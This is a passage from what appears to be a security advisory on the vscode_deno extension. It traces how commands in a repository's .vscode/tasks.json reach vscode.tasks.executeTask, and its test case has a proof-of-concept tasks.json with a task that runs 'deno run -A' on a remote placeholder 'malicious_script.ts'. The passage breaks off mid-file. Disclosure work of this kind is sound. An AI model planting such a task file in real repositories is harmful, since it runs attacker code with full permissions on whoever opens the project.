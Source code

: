           return new vscode.Task(
            definition,
            target,
            name,
            TASK_SOURCE,
            exec,  // ProcessExecution with command and args
            problemMatchers,
          );
        }
        ```
        - `buildDenoTask` takes `DenoTaskDefinition` as input, which directly includes `command` and `args` from the `tasks.json`.
        - It creates a `vscode.ProcessExecution` using the provided `process` (Deno executable path) and `args`.
        - The `vscode.Task` is then created using this `ProcessExecution`.
    3. **`vscode_deno\client\src\tasks_sidebar.ts`**: `DenoTasksTreeDataProvider` is responsible for displaying tasks in the sidebar and handling task execution.
        ```typescript
        class DenoTask extends TreeItem {
          constructor(
            public denoJson: DenoJSON,
            public task: Task, // vscode.Task object created by buildDenoTask
          ) {
            // ...
          }
        }

        export class DenoTasksTreeDataProvider implements TreeDataProvider<TreeItem> {
          // ...
          #runTask(task: DenoTask) {
            tasks.executeTask(task.task); // Executing the vscode.Task
          }
          // ...
        }
        ```
        - `DenoTask` holds a `vscode.Task` object.
        - `#runTask` method in `DenoTasksTreeDataProvider` directly executes the `vscode.Task` object using `vscode.tasks.executeTask()`.

    **Visualization:**

    ```
    Malicious Repository (.vscode/tasks.json) --> Victim Opens Repository in VSCode --> Deno Extension Reads tasks.json --> Creates vscode.Task objects (with malicious command/args) --> Victim Executes Malicious Task --> vscode.tasks.executeTask() --> System Shell Executes Malicious Command
    ```

- **Security Test Case:**
    1. Create a new folder named `vscode_deno_task_poc`.
    2. Inside `vscode_deno_task_poc`, create a subfolder named `.vscode`.
    3. Inside `.vscode`, create a file named `tasks.json` with the following content:
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "--unstable",
                "https://raw.githubusercontent.com/username/repo/main/malicious_script.ts"
              ],
              "label": "Malicious Task - Command Injection POC"
            },
